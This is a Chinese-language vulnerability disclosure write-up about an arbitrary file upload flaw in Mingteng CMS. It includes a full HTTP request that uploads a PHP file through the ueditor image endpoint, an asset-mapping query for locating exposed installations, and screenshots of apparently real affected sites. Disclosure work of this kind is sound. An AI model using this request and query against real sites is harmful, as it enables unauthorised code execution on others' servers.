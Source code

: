 # 明腾 CMS 存在任意文件上传漏洞

> 给 CNVD 提交了，但是要我给不打码的截图， 但是对应的目标也都关站了或者链接无法访问了， 搞不了截图了， 直接不搞了

## 介绍

明腾 CMS 是一款专业的内容管理系统, 在最新版本中, 由于明腾 CMS 的验证不充分, 导致任意用户可以通过其后台编辑器接口来上传任意类型的文件,  进而导致命令执行等漏洞的产生.

##  漏洞复现

![image-20240303204003971](./assets/image-20240303204003971.png)

发送下面的请求, 就会返回对应的上传文件的存储位置

```http
POST /mingteng/ueditor/imageup/savePath/public/upload/temp/pictitle/banner/dir/images.html HTTP/2
Host: *************
Cookie: *************
Content-Length: 201
User-Agent: *************
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryzxO5u6lHqBqdgQY0
Accept: */*

------WebKitFormBoundaryzxO5u6lHqBqdgQY0
Content-Disposition: form-data; name="file"; filename="Bash.php"
Content-Type: image/png

<?php echo "Vuln";?>
------WebKitFormBoundaryzxO5u6lHqBqdgQY0--
```

之后请求对应的文件, 就会发现对应的文件执行了

![image-20240303204258107](./assets/image-20240303204258107.png)

## 资产测绘

```forth
title=="明腾CMS管理中心登录"
```

## 漏洞发现过程

在查看 [[1day]明腾CMS某接口存在任意文件上传](https://mp.weixin.qq.com/s/9PMdl1w2tX93HXRVUazq8w)  文章的时候感觉可以搞一手, 经过一番搜寻在前端找到了对应的接口

![image-20240303213441250](./assets/image-20240303213441250.png)

在构造了一个请求之后, 后端返回对应的一个文件上传页面源码 (如果只在浏览器端看是根本看不见的, 我是看 Burp 的响应报文发现的) 之后通过 Burp 的选项 `展示响应内容到浏览器` 发现了对应的上传位置, 之后上传就完了

## 案例

## 案例一

![image-20240304121538776](./assets/image-20240304121538776.png)

![image-20240304121617096](./assets/image-20240304121617096.png)

## 案例二

![image-20240304122418062](./assets/image-20240304122418062.png)

![image-20240304122448364](./assets/image-20240304122448364.png)

## 案例三

![image-20240304123117145](./assets/image-20240304123117145.png)

![image-20240304123141015](./assets/image-20240304123141015.png)